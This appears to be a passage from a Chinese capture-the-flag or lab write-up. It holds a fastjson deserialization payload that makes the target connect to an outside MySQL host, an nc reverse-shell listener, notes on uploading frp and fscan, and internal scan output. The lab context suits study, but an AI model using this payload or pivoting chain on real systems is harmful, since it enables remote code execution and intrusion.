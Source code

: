 ```http
/user/list?search=%7B%20%22name%22:%20%7B%20%22@type%22:%20%22java.lang.AutoCloseable%22,%20%22@type%22:%20%22com.mysql.jdbc.JDBC4Connection%22,%20%22hostToConnectTo%22:%20%22182.92.161.222%22,%20%22portToConnectTo%22:%203306,%20%22info%22:%20%7B%20%22user%22:%20%22CommonsCollections7%22,%20%22password%22:%20%22pass%22,%20%22statementInterceptors%22:%20%22com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor%22,%20%22autoDeserialize%22:%20%22true%22,%20%22NUM_HOSTS%22:%20%221%22%20%7D%20%7D 
```

nc监听

```bash
nc -lvp 7777
```

获取flag

![image-20231013165014762](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231013165014762.png)

之后传入frp、fscan，进行代理和扫描

看一下网卡

```bash
ifconfig
```

![image-20231013165646270](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231013165646270.png)

用fscan扫一下

```
(icmp) Target 172.22.3.12     is alive
(icmp) Target 172.22.3.2      is alive
(icmp) Target 172.22.3.9      is alive
(icmp) Target 172.22.3.26     is alive
[*] Icmp alive hosts len is: 4
172.22.3.9:808 open
172.22.3.12:80 open
172.22.3.12:22 open
172.22.3.12:8000 open
172.22.3.2:88 open
172.22.3.9:445 open
172.22.3.2:445 open
172.22.3.26:445 open
172.22.3.9:443 open
172.22.3.26:139 open
172.22.3.9:8172 open
172.22.3.9:139 open
172.22.3.2:139 open
172.22.3.26:135 open
172.22.3.9:135 open
172.22.3.2:135 open
172.22.3.9:81 open
172.22.3.9:80 open
[*] alive ports len is: 18
start vulscan
[*] NetInfo:
[*]172.22.3.2
   [->]XIAORANG-WIN16
   [->]172.22.3.2
[*] NetInfo:
[*]172.22.3.26
   [->]XIAORANG-PC
   [->]172.22.3.26
[*] NetBios: 172.22.3.26     XIAORANG\XIAORANG-PC           
[*] NetInfo:
[*]172.22.3.9
   [->]XIAORANG-EXC01
```